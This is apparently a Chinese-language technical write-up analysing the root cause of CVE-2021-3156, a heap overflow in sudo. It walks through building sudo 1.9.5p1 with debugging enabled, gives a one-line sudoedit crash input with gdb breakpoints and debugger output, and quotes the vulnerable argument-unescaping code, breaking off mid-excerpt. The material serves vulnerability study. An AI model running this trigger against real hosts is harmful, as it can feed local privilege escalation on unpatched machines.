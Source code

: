 # 关于CVE-2021-3156你需要知道的三两事
# 漏洞原理

首先拉下来sudo的项目然后编译。

```
https://github.com/sudo-project/sudo/archive/SUDO_1_9_5p1.tar.gz
```

```shell
tar xf sudo-SUDO_1_9_5p1.tar.gz
cd sudo-SUDO_1_9_5p1/
mkdir build
cd build/
../configure --enable-env-debug
make -j
sudo make install
```

注意两点：1.开启debug模式；2.编译完了要install。

这一切做完后，可以加载sudoedit的符号表了。

以这个poc为例：

```
gdb --args sudoedit -s '\' `perl -e 'print "A" x 65536'`
```

断点：

```
b ../../../plugins/sudoers/sudoers.c:958
```

![](https://s3.ax1x.com/2021/01/28/ypMwTg.png)

此时相关信息如下：

```c
pwndbg> p NewArgv[0]
$1 = 0x55ae1a212e4e "sudoedit"
pwndbg> p NewArgv[1]
$2 = 0x7ffee74407e8 "\\"
pwndbg> p NewArgv[2]
$3 = 0x7ffee74407ea 'A' <repeats 200 times>...
```

以关键代码举例：

```c
            /* Alloc and build up user_args. */
            for (size = 0, av = NewArgv + 1; *av; av++)
                size += strlen(*av) + 1;
            if (size == 0 || (user_args = malloc(size)) == NULL) {
                sudo_warnx(U_("%s: %s"), __func__, U_("unable to allocate memory"));
                debug_return_int(NOT_FOUND_ERROR);
            }
            if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL)) {
                /*
                 * When running a command via a shell, the sudo front-end
                 * escapes potential meta chars.  We unescape non-spaces
                 * for sudoers matching and logging purposes.
                 */
                for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
                    while (*from) {
                        if (from[0] == '\\' && !isspace((unsigned char)from[1]))
                            from++;
```